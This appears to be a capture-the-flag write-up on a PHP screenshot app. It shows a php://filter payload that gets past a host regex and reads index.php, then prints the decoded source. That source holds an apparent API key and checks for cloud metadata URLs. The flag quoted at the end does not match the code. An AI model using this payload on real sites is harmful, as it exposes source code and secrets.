 ![image](https://user-images.githubusercontent.com/67979878/128135525-c48bacba-e62c-47ca-b5ec-fb36bc5165a9.png)
it looks like it takes a screenshot and display it .
![image](https://user-images.githubusercontent.com/67979878/128136423-73a60cac-06ec-46f8-a4f9-4d1dbf05d7bf.png)

as we can see the web app uses a vulnerable php function 
![image](https://user-images.githubusercontent.com/67979878/128136447-5695e840-bca1-4237-8164-30641cb69941.png)


link: http://ec2-54-184-225-39.us-west-2.compute.amazonaws.com/screenshot/?url=11111111111111111111111&server=http%3A%2F%2Finternalapi1.local%2F

as we can notice to have previous response browser sent 2 parameters url,server 

there is an image return each time in the view source page we can download it and see results .

after serveral trials i find out that :

- it makes sure server conatin internalapi.localx or returns not valid url  
- if doesn't exist will have an empty image

payload :

i used a php wrapper as a payload to view /index.php .
in url sending parameters :

?url=&server=php://filter/convert.base64-encode/resource=internalapi3.local/../index.php

now we have a valid image ! , i downloaded it as .txt beacuse i know it is a php base64 encoded 

decoding it and removing non interesting parts of it .
```
<?php

if(isset($_GET['url'])){
    //--- Set the parameters --------------//
    $url  = $_GET['server'].$_GET['url'];
    $apikey = "ab6e7c527efda467019ba2687739c74c089fe5cd9c2a";
    $file = __DIR__.'/thumbs/'.md5($url).'.jpg';
    $fileURL = 'thumbs/'.md5($url).'.jpg';
    $width  = 640;
    $fetchUrl = "https://api.thumbnail.ws/api/".$apikey ."/thumbnail/get?url=".urlencode($url)."&width=".$width;
    $fakeUrl = $url;

    if(filter_var($url, FILTER_VALIDATE_URL)) {
        $r = parse_url($url);
        //print_r($r);

        if(!preg_match('/internalapi[1-9]\.local/', $url)) {
            echo 'Invalid HOST:-'.'<br />';
            echo 'You must choose one of our internal apis internalapi [1:9] only'.'<br />';
            echo 'Given: '.htmlentities($url);
            exit;
        }

    // if(strstr($url,'@')){   //if url contain @

    //     $info = explode('@',$url);
    //     $url = $info[1];

    //     $serverIP = '54.187.57.106';
    //     $supposeURL = '54.187.57.106/latest/meta-data/hostname';
    //     $supposeURL2 = '127.0.0.1/latest/meta-data/hostname';

    //     if(strstr($url,$supposeURL) || strstr($url,$supposeURL2))
    //      {
    //         $jpeg =  'Server!Host@Flag';
    //         file_put_contents($file, $jpeg);
            }
    ?>


```


you can see ` $jpeg =  'Server!@Flag' 

